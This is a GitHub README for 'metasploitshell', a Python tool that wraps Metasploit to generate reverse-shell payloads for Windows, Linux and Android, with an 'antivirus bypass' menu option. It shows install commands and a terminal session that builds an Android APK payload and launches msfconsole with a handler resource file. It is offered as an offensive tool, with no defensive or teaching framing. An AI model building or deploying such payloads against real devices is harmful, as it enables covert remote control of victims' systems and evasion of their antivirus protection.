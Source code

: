 # metasploitshell
made by khilesh
# simple reverse shell gerneter tool

# commands
        git clone https://github.com/khilesh114/metasploitshell
        cd metasploitshell
        sudo python3 msv.py

──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
└─$ python3 msv.py
metasploit fremwork
enter ip addres ex 127.0.0.1
enter port ex 8080
windows [1]
linux   [2]
android [3]
antivirus bypass [4]
exit tool  [5]
enter a number :-3

 
                   
_____    ____    __| _/______  ____ |__| __| _/
\__  \  /    \  / __ |\_  __ \/  _ \|  |/ __ | 
 / __ \|   |  \/ /_/ | |  | \(  <_> )  / /_/ | 
(____  /___|  /\____ | |__|   \____/|__\____ | 
                        

Enter ip address :-127.0.0.1
Enter a port nomber  :-8080
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10231 bytes
Saved as: android.apk
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\
=[ metasploit v6.3.42-dev                          ]
+ -- --=[ 2375 exploits - 1232 auxiliary - 416 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Processing android.txt for ERB directives.
exit msfconsole 
# emsf6 > exit
                                                                                                                          
#┌──(codex㉿kali)-[~/Desktop/projects/metasploitshell]
any error exit msfconsole and run command
# └─$ msfconsole -r android.txt



